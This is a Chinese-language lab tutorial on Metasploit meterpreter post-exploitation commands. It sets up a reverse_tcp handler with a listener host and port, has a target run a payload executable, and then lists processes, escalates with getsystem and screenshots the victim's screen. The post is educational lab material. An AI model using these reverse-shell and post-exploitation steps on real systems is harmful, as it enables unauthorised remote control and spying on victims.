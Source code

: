 ```yaml
---
title: metasploit之meterpreter命令
date: 2021-12-21 12:22:46
tags: 
    - msf
    - meterpreter 
---
```


## metasploit之meterpreter命令

### 目的: 了解meterpreter命令

### 原理:  
`ps`         查询当前目标机所有进程
`getpid`       获取当前会话进程
`getuid`       当前用户所用的权限，所在用户组
`sysinfo`      取系统信息
`getsystem`    提升至system最高权限
`shell`      进入cmdshell命令模式
`pwd`       查看当前所在位置
`cat`        查看文本文件
`ipconfig`     查看网络配置信息
`migrate pid`   迁移pid
`screenshot`    截取当前用户屏幕保存到本地

### 过程：

打开终端，运行msf，`use exploit/multi/handler`选择exploit，`set payload windows/meterpreter/reverse_tcp`设置payload，`set LHOST 192.168.1.2`设置监听主机，`set LPORT 11101`设置端口

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/1.PNG)

输入`exploit -j`运行脚本，且在后台监听


靶机双击桌面运行xx.exe，返回kali，已经取得会话

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/2.PNG)

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/3.PNG)

敲击回车，返回msf，执行`sessions`，查看会话，再执行`sessions 1`,进入会话

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/4.PNG)

执行`ps`查看进程

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/5.PNG)

`getuid` 查看权限

`pwd` 查看当前路径

`screentshot`截图

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/6.PNG)

`background`会话转入后台

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/7.PNG)

新建终端，进入/root目录下，查看截图

![](https://121.5.125.62:88/image/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/8.PNG)

实验结束